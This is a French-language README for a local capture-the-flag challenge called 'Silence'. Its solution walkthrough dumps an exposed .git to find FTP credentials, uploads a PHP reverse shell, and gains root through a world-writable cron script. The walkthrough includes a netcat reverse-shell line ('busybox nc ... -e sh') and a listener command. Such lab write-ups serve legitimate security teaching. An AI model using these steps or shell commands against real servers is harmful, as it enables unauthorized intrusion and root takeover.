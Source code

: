 # Silence

## SETUP
```
docker-compose up -d
```

```
http://localhost:80
```

## CHALLENGE
Quelqu'un semble avoir découvert la présence de notre société parmis le cégep. Nous devons le faire taire.
Pirater son site et prenez le contrôle du compte root.

## SOLUTION
### Étape 1: Dump .git
Si on scan le site pour trouver des répertoires caché (nmap -sC, dirbuster, etc.), on peut trouver un folder .git exposé.
En dumpant ce .git avec un outil (git-dumper) et en observant l'historique de commit, on peut obtenir une page contenant des crendentials pour se connecter au serveur FTP. Le flag est à la racine du serveur FTP.

### Étape 2: Upload de reverse shell PHP
Par la suite, on peut voir que nous avons les privilèges d'écriture sur le FTP et que la racine du serveur pointe vers la racine de la page web. Nous pouvons donc uploader un reverse shell en php et l'exécuter pour obtenir notre foothold initial. Le flag est dans le dossier home de e.arcand.

### Étape 3: Escalade de privilège via cronjob vulnérable
Si on fouille les cronjobs, on peut trouver une job custom qui déplace les fichiers du dossier "preuves" vers le home de e.arcand.
Si on regarde les permissions du script "deplacerPreuve", on peut voir que n'importe qui peut le modifier. Il suffit donc d'ajouter un reverse shell au script (e.g. busybox nc 10.10.10.10 9001 -e sh) et de se starter un listener netcat (nc -lvnp 9001). Après environ une minute, on devrait recevoir une connexion sur notre listener et obtenir l'accès root. Le dernier flag est dans le dossier "/root".